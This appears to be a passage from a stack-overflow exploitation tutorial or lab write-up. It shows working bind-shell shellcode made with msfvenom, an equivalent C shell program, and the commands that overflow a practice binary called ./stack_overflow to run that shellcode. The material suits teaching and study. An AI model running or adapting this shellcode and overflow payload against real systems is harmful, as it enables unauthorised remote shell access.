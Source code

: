 ## Remote code execution
1. Gain shellcode for TCP server, using msfvenom from metasploit

```bash
$ msfvenom -p linux/x64/shell_bind_tcp_random_port -f c PrependSetuid=True

Payload size: 59 bytes
Final size of c file: 275 bytes
unsigned char buf[] = 
"\x48\x31\xff\x6a\x69\x58\x0f\x05\x6a\x29\x58\x99\x6a\x01"
"\x5e\x6a\x02\x5f\x0f\x05\x97\xb0\x32\x0f\x05\x96\xb0\x2b"
"\x0f\x05\x97\x96\xff\xce\x6a\x21\x58\x0f\x05\x75\xf7\x52"
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0"
"\x3b\x0f\x05";
```

Equivalent TCP-server program:

```c
#include <netinet/in.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <unistd.h>

int main(void)
{
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    listen(sockfd, 1);
    int clientfd = accept(sockfd, NULL, NULL);
    dup2(clientfd, 0);
    dup2(clientfd, 1);
    dup2(clientfd, 2);
    char * const argv[] = {"sh",NULL, NULL};
    execve("/bin/sh", argv, NULL);
    return 0;
}
```

2. Update PWN vairable with new shellcode
```bash
$ export PWN=`python3 -c 'import sys; sys.stdout.buffer.write(b"\x48\x31\xff\x6a\x69\x58\x0f\x05\x6a\x29\x58\x99\x6a\x01\x5e\x6a\x02\x5f\x0f\x05\x97\xb0\x32\x0f\x05\x96\xb0\x2b\x0f\x05\x97\x96\xff\xce\x6a\x21\x58\x0f\x05\x75\xf7\x52\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05")'`
```

3. Execute exploit once again
```python
$ ./getenvvar PWN ./stack_overflow
PWN will be at 0x7fffffffe503

$ (python3 -c "import sys; sys.stdout.buffer.write(b'A'*88 + b'\x03\xe5\xff\xff\xff\x7f\x00\x00' + b'\n')"; cat) | ./stack_overflow
```
